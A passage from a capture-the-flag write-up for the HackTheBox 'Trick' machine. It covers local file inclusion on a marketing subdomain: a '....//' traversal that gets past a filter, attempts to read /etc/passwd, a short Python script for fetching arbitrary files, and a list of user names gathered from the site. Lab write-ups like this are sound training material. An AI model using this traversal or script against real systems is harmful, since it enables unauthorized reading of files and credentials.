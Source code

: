 Now I will check this site out using firefox... Something I notice pretty quickly after I began clicking around a bit was the URL scheme, and how it was rendering pages:
Ex:
`http://preprod-marketing.trick.htb/index.php?page=services.html`

### Shell as michael

Given the fact it is specifying a particular page in the page parameter, I decided to try various LFI payloads to see it I could get any success. After trying `/etc/passwd` and a bunch of bypassd techniques, I had no success. However, I should note that replacing `index.php` in the page parameter caused the same page to be rendered as `index.php`. So this means that it's being filtered using a `PHP` filter. So, I decided to try and use some PHP filter's to render the different pages as shown [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter). Along with some other bypasses. After I found a working payload (`....//`, due to str_replace of `../`)... Here is the script I wrote to more easily get file inclusion:
```python
import requests
import sys


url = "http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//{}"



passwd = sys.argv[1]
if not passwd:
    print("Usage: python lfi.py <file path>")

if passwd.startswith('/'):
    payload = passwd.replace('/', '')
else:
    payload = passwd


resp = requests.get(url.format(payload))
print(resp.text)
```

Also, I should mention that before I did this I did check the `about.html` page from `preprod-marketing.trick.htb` and wrote down a list of all the names I found, including:

```
levi
mari
jen
jen terry
levi moore
erik
erik morris
michael
michael owen
```
